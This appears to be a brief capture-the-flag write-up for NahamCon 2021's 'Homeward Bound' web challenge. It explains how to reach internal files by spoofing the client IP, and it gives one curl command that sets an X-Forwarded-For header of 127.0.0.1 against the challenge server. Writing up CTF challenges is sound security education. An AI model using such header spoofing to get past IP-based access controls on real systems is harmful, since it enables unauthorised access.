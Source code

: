 ```yaml
---
layout: load_md
title: The White Circle | Nahamcon 2021 | Homeward Bound Writeup
desc: "The White Circle is a community for Cyber/Information Security students, enthusiasts and professionals. You can discuss anything related to Security, share your knowledge with others, get help when you need it and proceed further in your journey with amazing people from all over the world."
image: images/twc_og_banner.jpg
ctf: Nahamcon 2021
parent: nahamcon_2021
category: web
challenge: Homeward Bound
tags: "web"
date: 2021-03-15T00:00:00+00:00
last_update: 2021-03-15T00:00:00+00:00
---
```


<h1 class="heading card-title white-text">Nahamcon 2021</h1>

## Homeward Bound

In this challenge we were supposed to access internal files by spoofing client IP address, this can be done using `X-Forwarded-For` header

```
$ curl -H “X-Forwarded-For: 127.0.0.1” http://challenge.nahamcon.com:31428/
```
